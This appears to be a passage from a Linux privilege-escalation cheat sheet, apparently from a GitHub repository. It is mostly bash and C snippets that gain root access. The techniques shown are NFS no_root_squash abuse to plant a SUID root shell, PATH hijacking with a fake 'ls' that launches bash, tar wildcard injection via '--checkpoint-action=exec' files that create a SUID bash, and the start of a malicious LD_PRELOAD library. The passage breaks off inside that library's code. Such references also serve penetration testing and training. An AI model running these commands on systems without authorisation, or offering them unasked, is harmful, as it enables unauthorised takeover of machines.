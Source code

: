 #### Writable Files and Directories
```bash
# Find writable files
find / -writable -type f 2>/dev/null

# Find writable directories
find / -writable -type d 2>/dev/null

# Find writable /etc files
find /etc -writable -type f 2>/dev/null
```

#### NFS Shares
```bash
# Check NFS exports
cat /etc/exports

# Check if no_root_squash option is enabled
# If yes, mount the share and create SUID binary
showmount -e target
mkdir /tmp/nfs
mount -t nfs target:/share /tmp/nfs
echo 'int main() { setuid(0); setgid(0); system("/bin/bash"); return 0; }' > /tmp/nfs/shell.c
gcc /tmp/nfs/shell.c -o /tmp/nfs/shell
chmod +s /tmp/nfs/shell
```

#### Path Hijacking
```bash
# Check PATH variable
echo $PATH

# Create malicious program in writable directory in PATH
cd /tmp
echo '#!/bin/bash' > ls
echo '/bin/bash' >> ls
chmod +x ls
export PATH=/tmp:$PATH
```

#### Wildcard Injection
```bash
# If a script uses wildcards with commands like tar, rsync, etc.
# Example for tar
cd /path/to/directory
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > shell.sh
chmod +x shell.sh
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
# Wait for tar command to run in cron
```

#### Library Hijacking
```bash
# Check for LD_PRELOAD in sudo
sudo -l | grep LD_PRELOAD

# If available, create malicious library
echo '#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
```